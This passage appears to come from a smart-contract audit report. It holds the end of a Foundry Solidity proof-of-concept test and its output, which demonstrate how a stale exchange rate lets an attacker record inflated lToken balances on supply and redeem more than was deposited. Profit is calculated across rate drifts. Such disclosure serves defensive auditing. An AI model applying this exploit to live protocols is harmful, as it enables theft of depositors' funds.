 ```solidity
        
        console.log("\n📊 VULNERABLE REDEEM CALCULATION:");
        console.log("expectedUnderlying = (lTokens * exchangeRateStored()) / 1e18");
        console.log("❌ Problem: Uses STALE rate with INFLATED token balance");
        console.log("❌ Result: Transfers MORE underlying than originally deposited");
        
        console.log("\n🔄 EXPLOIT FLOW:");
        console.log("1. Supply with stale rate → Get inflated lToken balance recorded");
        console.log("2. Redeem with stale rate → Withdraw more than deposited");
        console.log("3. Protocol loses the difference due to accounting mismatch");
    }
    
    function testRateDriftScenarios() public view {
        console.log("\n=== RATE DRIFT SCENARIOS ===");
        
        uint256[5] memory driftPercentages = [uint256(1), 3, 5, 10, 20];
        uint256 baseRate = 2e18;
        uint256 attackAmount = 10000e18;
        
        for (uint256 i = 0; i < driftPercentages.length; i++) {
            uint256 driftRate = baseRate + (baseRate * driftPercentages[i]) / 100;
            uint256 recordedTokens = (attackAmount * 1e18) / baseRate;
            uint256 actualTokens = (attackAmount * 1e18) / driftRate;
            uint256 inflationAmount = recordedTokens - actualTokens;
            uint256 profit = (inflationAmount * baseRate) / 1e18;
            
            console.log("Drift:", driftPercentages[i], "% | Profit: $", profit / 1e18);
        }
        
        console.log("\nConclusion: Profit scales linearly with exchange rate drift");
    }
}
```

PoC Results:
```solidity
forge test --match-test testExchangeRateAccountingMismatch -vv

=== EXCHANGE RATE ACCOUNTING MISMATCH EXPLOIT ===
Attack amount: $ 10000
Stale stored rate: 2100000000000000000
Current actual rate: 2205000000000000000
Rate difference: % 5

--- SIMULATING VULNERABLE SUPPLY FUNCTION ---
Using stale exchange rate: 2100000000000000000
Calculated mintTokens with stale rate: 4761904761904761904761
Actually minted tokens (current rate): 4535147392290249433106
Storage will record: 4761904761904761904761
But only 4535147392290249433106 were actually minted

--- SUPPLY PHASE RESULTS ---
Tokens recorded in storage: 4761904761904761904761
Tokens actually minted: 4535147392290249433106
Inflation amount: 226757369614512471655

--- SIMULATING VULNERABLE REDEEM FUNCTION ---
Attempting to redeem inflated balance: 4761904761904761904761
Using stale exchange rate for calculation: 2100000000000000000
Calculated expectedUnderlying: 10000000000000000000000
Amount transferred to attacker: 10000000000000000000000

--- REDEEM PHASE RESULTS ---
Amount withdrawn: 10000000000000000000000
```